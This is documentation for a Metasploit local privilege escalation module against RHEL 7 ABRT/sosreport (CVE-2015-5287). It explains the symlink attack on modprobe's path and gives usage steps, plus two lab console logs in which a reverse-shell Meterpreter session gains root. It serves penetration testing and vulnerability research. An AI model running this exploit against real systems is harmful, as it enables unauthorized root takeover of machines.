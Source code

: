 ## Description

  This module attempts to gain root privileges on RHEL systems with
  a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured
  as the crash handler.

  `sosreport` uses an insecure temporary directory, allowing local users
  to write to arbitrary files (CVE-2015-5287). This module uses a symlink
  attack on `/var/tmp/abrt/cc-*$pid/` to overwrite the `modprobe` path
  in `/proc/sys/kernel/modprobe`, resulting in root privileges.

  Waiting for `sosreport` could take a few minutes.


## Vulnerable Application

  This module has been tested successfully on:

  * abrt 2.1.11-12.el7 on RHEL 7.0 x86_64
  * abrt 2.1.11-19.el7 on RHEL 7.1 x86_64


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/abrt_sosreport_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### TIMEOUT

  Timeout for `sosreport` (seconds) (default: `600`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 7.0 (x64)

  ```
  msf > use exploit/linux/local/abrt_sosreport_priv_esc
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-12.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.DcxBT2w' (2756 bytes) ...
  [*] Writing '/tmp/.HUAWYz' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.151
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.151:50843) at 2019-04-20 07:21:24 -0400
  [+] Deleted /tmp/.DcxBT2w
  [+] Deleted /tmp/.HUAWYz
  [+] Deleted /tmp/hax.sh
  [*] waiting for sosreport to finish (can take several minutes)....................

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-123.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


### Red Hat Enterprise Linux 7.1 (x64)

  ```
  msf > use exploit/linux/local/abrt_sosreport_priv_esc
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-19.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.gFrwiGr' (2756 bytes) ...
  [*] Writing '/tmp/.NA4fwK' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.218
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.218:51022) at 2019-04-20 07:23:24 -0400
  [*] waiting for sosreport to finish (can take several minutes)..............

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

